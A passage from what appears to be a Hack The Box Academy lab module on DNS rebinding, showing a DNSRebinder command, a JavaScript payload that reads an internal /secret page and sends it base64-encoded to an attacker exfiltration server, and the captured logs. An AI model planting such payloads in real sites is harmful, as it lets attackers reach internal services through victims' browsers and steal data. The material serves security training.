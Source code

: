 ```shell
sudo python3 dnsrebinder.py --domain www.attacker.htb. --rebind 192.168.178.1 --ip $PUBLIC_WEBSERVER_IP --counter 1 --tcp --udp

Starting nameserver...
UDP server loop running in thread: Thread-1
TCP server loop running in thread: Thread-2

```

Finally, we need to host the following payload on our web server and start our exfiltration server at `http://exfiltrate.attacker.htb:1337`:

```html
<script>
    startAttack();

    function startAttack(){
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://www.attacker.htb/secret', true);
        xhr.onload = () => {
          fetch('http://exfiltrate.attacker.htb:1337/log?data=' + btoa(xhr.response));
        };
        xhr.send();

    setInterval(startAttack, 2000);
    }
</script>

```

The payload calls itself every 2 seconds to increase the probability of a successful attack. If a victim accesses our website at `http://www.attacker.htb`, DNSRebinder executes the DNS rebinding such that we simply have to wait for the request to our exfiltration server:

```shell
python3 -m http.server 1337

Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
127.0.0.1 - - [13/May/2023 10:29:09] code 404, message File not found
127.0.0.1 - - [13/May/2023 10:29:09] "GET /log?data=VGhpcyBpcyBzZWNyZXQgZGF0YSE= HTTP/1.1" 404 -

```

Simulating the victim, we can see the request accessing the internal web application in Burp:

![image](https://academy.hackthebox.com/storage/modules/231/ssrf/dns_rebind_1.png)

Afterward, the response is base64 encoded and exfiltrated to the attacker in the following request:

```http
GET /log?data=VGhpcyBpcyBzZWNyZXQgZGF0YSE= HTTP/1.1
Host: exfiltrate.attacker.htb:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: */*
Origin: http://www.attacker.htb
Referer: http://www.attacker.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```
